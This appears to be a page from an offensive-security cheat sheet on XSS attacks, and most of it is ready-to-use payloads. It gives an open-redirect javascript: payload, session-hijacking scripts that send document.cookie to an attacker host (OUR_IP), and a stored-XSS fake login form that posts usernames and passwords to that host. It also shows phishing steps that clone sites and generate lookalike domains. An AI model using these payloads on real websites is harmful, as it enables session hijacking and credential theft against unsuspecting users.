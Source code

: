 To obtain the Hexadecimal for a target IP (192.168.1.1 in the example), use the following JavaScript oneliner in a browser:

```
console.log("192.168.1.1".split('.').map(octet => '0x' + (+octet).toString(16)).join('.'));
```

***

## XSS - Other Attacks

{% hint style="info" %}
XSS attacks are not just about popping the alert message containing cookies.

This section describes some alternative attacks you can perform by exploiting XSS vulnerabilities
{% endhint %}

***

### Open Redirect to XSS

Whenever you are facing a web application which is vulnerable to Open Redirects, it might also be the case that the same vector can be used to gain XSS.

An example might be a website which allows for open redirects by leveraging a GET parameter, such as the following: `vulnerable.com/test.php?redirect_url={value}`

Instead of using the standard http or https protocols followed by your attacker website, you might insert a `javascript` payload as the `value` of the `redirect_url` parameter.\
For example, you could navigate to the following URL to pop an alert:\
`vulnerable.com/test.php?redirect_url=javascript:alert(document.domain)`

***

### **XSS Session Hijacking**

* Use the following XSS Payload: `<script src=http://OUR_IP/script.js></script>`
* On the attacker machine, write one of the following payload inside a file named `script.js`:
  1. `new Image().src='http://OUR_IP/index.php?c='+document.cookie`
  2. `document.location='http://OUR_IP/index.php?c='+document.cookie;`

***

### **XSS Phishing**

You can use wget or other tools such as [goclone](https://github.com/imthaghost/goclone) to clone a website's content.

After that, you can use tools such as `urlcrazy` to generate domain names similar to the one you are trying to target via the commandline, e.g. you can just use `urlcrazy www.example.com` to generate all the useful, similar domain names for phishing attempts

Another form of XSS phishing can be obtained by leveraging stored XSS vulnerabilities to inject a fake login form that sends the credentials to our attacker server

```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
